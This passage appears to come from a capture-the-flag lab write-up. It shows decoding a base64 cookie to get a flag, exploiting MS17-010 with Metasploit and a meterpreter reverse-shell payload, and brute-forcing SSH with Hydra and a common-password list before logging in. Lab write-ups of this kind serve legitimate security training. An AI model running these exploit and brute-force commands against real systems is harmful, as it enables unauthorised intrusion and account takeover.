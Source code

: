 
d.	Decoded the cookie which is encoded in base 64 to get the flag; echo -n 'UEhQU0VTU0lEPXJocmpkM2ZhM3RpYjdhcHJydG11aG80cG4xOyBmbGFnPUZMQUd7NTA0NjNBNjA4QTU4QjREQjQzODI2NTRENTRCNDZGRDMxQjQ5ODkxREVCNENGMjY4MzFGOEZGQURCOUMwNzk4MX0' | base64 -d
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/8b4121ff-b325-4360-8ef5-9420ea1d29fa)


## Windows Initial Access
**Windows Initial Access I**
Ran nmap for vulnerability: nmap --script vuln 10.110.28.35 which exposed ms17-010
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/55b6ab9b-d1c0-414a-92f2-1881fcbf4c96)
 

Found the Metasploit module with cmd: msfconsole search ms17-010
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/57dec7e6-ac07-45ab-8a8e-63037b0cc303)


Gained access to module with cmd: exploit/windows/smb/ms17_010_psexec
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/82053596-125e-4fdb-9414-9611a5e6c4ea)

Applied the following commands to gain access to shell;
set payload windows/x64/meterpreter/reverse_tcp
set rhosts 10.110.28.35
Exploit
Shell
We access C drive => Downloads => MyEternalFlag.txt has the flag
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/08a61d4d-186d-48a1-9462-9a853b658ab9)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/dd05637e-0f7e-4256-98f5-acda7cbac588)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/752ffd2c-3989-4b3c-91c8-8c64d6806f80)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/bdb6322a-a6f4-42b7-85ab-e279aa1fbb6b)


**Windows Initial Access II**
a.	First scanned for open port with cmd: nmap 10.110.28.10 -p-
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/fa216a90-ddae-4bf9-a229-c2438d7a4ccb)


b.	Download 10000 most used password from github: wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/1909979c-b0aa-4430-b8c9-91feb55a6e18)

c.	Renamed the file name with: mv 10-million-password-list-top-10000.txt wordlist.txt
d.	Brute forced with cmd: hydra -l Mike -P wordlist.txt ssh://10.110.28.10
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b29c2882-7a3b-40ee-96df-d10f61606b21)
 

e.	Login with username mike and passwd qwert123 using cmd: ssh mike@10.110.28.10
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/872d060b-5c68-43d0-acea-50d0e96de969)
 
